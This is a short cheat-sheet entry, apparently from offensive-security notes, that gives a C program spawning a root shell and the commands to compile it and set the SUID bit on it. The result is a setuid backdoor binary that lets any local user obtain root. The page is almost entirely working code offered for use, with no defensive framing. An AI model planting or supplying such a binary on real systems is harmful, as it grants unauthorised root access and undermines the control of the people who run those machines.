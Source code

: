 # General

### C code that spawns a root shell

To be ran as `sudo` or with `SUID` bit

`shell.c`

```c
int main(){
 setgid(0); // set gid=0
 setuid(0); // set uid=0
 system("/bin/bash"); // spawns a shell as root
 return 0;
}
```

Compile with `gcc`, and relevant flags:

```bash
$ gcc shell.c -o shell
$ sudo chmod +s shell
```

